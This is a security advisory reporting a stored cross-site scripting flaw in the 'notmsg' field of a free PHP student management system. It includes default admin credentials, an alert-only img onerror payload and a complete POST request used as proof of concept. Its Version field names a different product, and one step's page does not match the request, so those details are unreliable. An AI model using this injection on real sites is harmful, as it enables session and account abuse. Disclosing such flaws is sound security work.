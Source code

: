 # Online student management system  - 'notmsg' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Online student management system  - 'notmsg' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=16137&title=Online+student+management+system+in+php+free+download
#### Version: Badminton Center Management System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online student management system s' does not filter the content correctly at the "notmsg" module, resulting in the generation of stored XSS.

#### Payload used:

`<img src="" onerror="alert(111111111)">`

#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:

   Username : mayurik
   Password : rootadmin

   

2. Open Page http://192.168.67.10/manage-students.php, Click the button to jump to the editing page.

   ![image-20231218171443708](img/Onlinestudentmanagementsystem(XSS)2/image-20231218171443708.png)

   http://192.168.67.10/edit-student-detail.php?editid=1

   ![image-20231218171500707](img/Onlinestudentmanagementsystem(XSS)2/image-20231218171500707.png)

   

   

3. Put XSS payload   in the "notmsg"  ;

   send package

   

   ```
   POST /edit-public-notice-detail.php?editid=1 HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: multipart/form-data; boundary=---------------------------229580367932215906372765851428
   Content-Length: 467
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/edit-public-notice-detail.php?editid=1
   Cookie: PHPSESSID=41k6lb8lgvu5aiq908id5u1qgh
   Upgrade-Insecure-Requests: 1
   
   -----------------------------229580367932215906372765851428
   Content-Disposition: form-data; name="nottitle"
   
   water supply unviability 
   -----------------------------229580367932215906372765851428
   Content-Disposition: form-data; name="notmsg"
   
   `<img src="" onerror="alert(111111111)">`
   -----------------------------229580367932215906372765851428
   Content-Disposition: form-data; name="submit"
   
   
   -----------------------------229580367932215906372765851428--
   
   
   ```
   
   
   
   


4. back to http://192.168.67.10/edit-public-notice-detail.php?editid=1 We can see the alert.;

   ![image-20231218171034851](img/Onlinestudentmanagementsystem(XSS)2/image-20231218171034851.png)

   


